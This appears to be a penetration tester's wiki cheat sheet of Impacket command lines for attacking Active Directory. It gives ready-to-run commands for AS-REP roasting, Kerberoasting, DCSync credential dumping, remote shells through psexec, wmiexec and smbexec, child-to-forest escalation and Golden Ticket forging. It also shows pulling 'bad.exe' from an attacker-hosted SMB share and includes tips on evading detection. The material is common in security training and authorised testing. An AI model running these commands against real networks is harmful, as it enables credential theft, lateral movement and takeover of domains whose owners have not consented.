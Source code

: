 # Impacket 
From [Impacket Github](https://github.com/SecureAuthCorp/impacket)
*"Impacket is a collection of Python classes for working with network protocols."*
## What protocols are featured?
-   Ethernet, Linux "Cooked" capture.
-   IP, TCP, UDP, ICMP, IGMP, ARP.
-   IPv4 and IPv6 Support.
-   NMB and SMB1, SMB2 and SMB3 (high-level implementations).
-   MSRPC version 5, over different transports: TCP, SMB/TCP, SMB/NetBIOS and HTTP.
-   Plain, NTLM and Kerberos authentications, using password/hashes/tickets/keys.
-   Portions/full implementation of the following MSRPC interfaces: EPM, DTYPES, LSAD, LSAT, NRPC, RRP, SAMR, SRVS, WKST, SCMR, BKRP, DHCPM, EVEN6, MGMT, SASEC, TSCH, DCOM, WMI, OXABREF, NSPI, OXNSPI.
-   Portions of TDS (MSSQL) and LDAP protocol implementations.

Impacket is an awesome suite of scripts written in python that are incorpated into tools like [[Crackmapexec-Cheatsheet]]. It is very useful suite of tools for [[Active-Directory-Enumeration]], [[Foothold-On-AD]], [[Attacking-Kerberos]], [[Active-Directory-Lateral-Movement]] and general [[Active-Directory-Privilege-Escalation]].

Haak9 Technical tips
```bash
# All the Impacket scripts support Kerberos authentication as well:
# -k -no-pass
# must specify host as FQDN and user as realm/user
       
# MISC
# - NETLOGON is inefficient (SMB, rpcclient)
# - RDP is slow
# - LDAP binds are faster but still result in event 4625

# Ask for password
kinit user

# Events ID
# - Failing Kerberos pre-authentication DOES NOT trigger a Logon failure event (4625):
# - Have to manually specify event logging for Kerberos (which is in a different location)
# - If you're only logging on traditional “Logon failures”, you'd miss this.
# - Now failures will be logged as event 4771.
# - So Kerberos pre-auth is a faster and potentially stealthier way to bf password.
```

## dccomexec.py 
Useful for [[Active-Directory-Lateral-Movement]].  A semi-interactive shell similar to wmiexec.py, but using different DCOM endpoints. Currently supports MMC20.Application, ShellWindows and ShellBrowserWindow objects.
```bash
dccomexec.py $domain/$username:$password@$IP <command>
```
## dpapi.py
Password Encryption tool on Windows

## GetNPUsers.py
For users that do not require Kerberos preauthentiation: 
'Do not require Kerberos preauthentication' set (UF_DONT_REQUIRE_PREAUTH). 
Output is compatible with JtR:[[John-The-Ripper-Cheatsheet]] use `-format hashcat` for  hashcat:[[Hashcat-Cheatsheet]] 

```bash
GetNPUSers.py  -dc-ip $IP -request '$domain/' 
GetNPUSers.py  -dc-ip $IP -request '$domain/' -format hashcat
```
This example will attempt to list and get TGTs for those users that have the property:
```bash
# Get TGT for a user
→ GetNPUsers.py $domain/$user -no-pass
# Get a list of users with UF_DONT_REQUIRE_PREAUTH set
→ GetNPUsers.py $domain/$user:password or GetNPUsers.py $domain/$user
# Request TGTs for all users
→ GetNPUsers.py $domain/$user:password -request or GetNPUsers.py $domain/$user
# Request TGTs for users in a file
→ GetNPUsers.py $domain/ -no-pass -usersfile users.txt
```

## GetTGT.py
Given a password, hash or aesKey, this script will request a TGT and save it as ccache.
```bash
getTGT.py -hashes lm:nt domain.com/user
```

## GetST.py
Given a password, hash, aesKey or TGT in ccache, this script will request a Service Ticket and save it as ccache. If the account has constrained delegation (with protocol transition) privileges you will be able to use the -impersonate`.
switch to request the ticket on behalf another user.
```bash
getST.py -hashes $lm:$nt -spn $spn/$spn-dc $domain$/$user
```

## GetUserSPNs.py
This example will try to find and fetch Service Principal Names that are associated with normal user accounts. Output is compatible with JtR and HashCat.
```bash
GetUserSPNs.py -dc-ip $dc-ip $spn.info/$notanadmin
```

## mssqlclient.py

```bash
mssqlclient.py -port $PORT $domain/$user@$IP -windows-auth
```

## psexec.py
Similiar to [[Sysinternals-Psexec]] like functionality example using [RemComSvc](https://github.com/kavika13/RemCom).
```bash

psexec.py $domain/$username:$password@$IP <command>
```

## raiseChild.py
This script implements a child-domain to forest privilege escalation by (ab)using the concept of Golden Tickets and ExtraSids. [[Attacking-Kerberos]] 
```bash
python raiseChild.py childDomain.net/$adminuser
python raiseChild.py childDomain.net/$adminuser:mypwd
python raiseChild.py -hashes LMHASH:NTHASH childDomain.net/$adminuser
```
This will perform the attack and then psexec against target-exec as Enterprise Admin
```bash
python raiseChild.py -target-exec targetHost childDomainn.net/$adminuser
```
This will save the final goldenTicket generated in the ccache target file
```bash
python raiseChild.py -w ccache childDomain.net/$adminuser
```

## secretsdump.py

Exploit DCSync Privileges
```bash
secretsdump.py -dc-ip $IP $domain/$user@$ip
```

## smbexec.py
A similar to `psexec.py` without using [RemComSvc](https://github.com/kavika13/RemCom). Instantiates a local smbserver to then receive the output of commands.
```bash
smbexec.py $domain/$username:$password@$IP <command>
```
This is useful in the situation where the target machine does NOT have a writeable share available.

## smbserver.py
Host a Python implementation of an SMB server. Allows to quickly set up shares and user accounts
```bash
smbserver.py $SHARENAME /path/to/your/local/share -smb2support
smbserver.py $SHARENAME /path/to/your/local/share --username $user --password 
$password
```
[IppsecRocks](https://ippsec.rocks/?#), start the smbserver your current directory
```bash
impacket-smbserver scriptserver $(pwd) -smb2support -user user -password pass
```
On remote:
```powershell
$pass = convertto-securestring 'pass' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('user', $pass)
New-PSDrive -Name user -PSProvider FileSystem -Credential $cred -Root \\$IP
```

```powershell
copy \\$ip\$Sharename\bad.exe
# Move into Share
cd $Share:
```

## ticketer.py
This script will create Golden/Silver tickets from scratch or based on a template (legally requested from the KDC).
```bash
ticketer.py -nthash <krbtgt/service nthash> -domain-sid <your domain SID> -domain <your domain FQDN> baduser
```

## wmiexec.py
A semi-interactive shell, used through Windows Management Instrumentation. It does not require to install any service/agent at the target server. Runs as Administrator. Highly stealthy.
```bash
wmiexece.py $domain/$username:$password@$IP <command>
```

## References
[IppsecRocks](https://ippsec.rocks/?#)
[Haax9](https://cheatsheet.haax.fr/windows-systems/exploitation/remote_execution_techniques/)
[RemComSvc](https://github.com/kavika13/RemCom)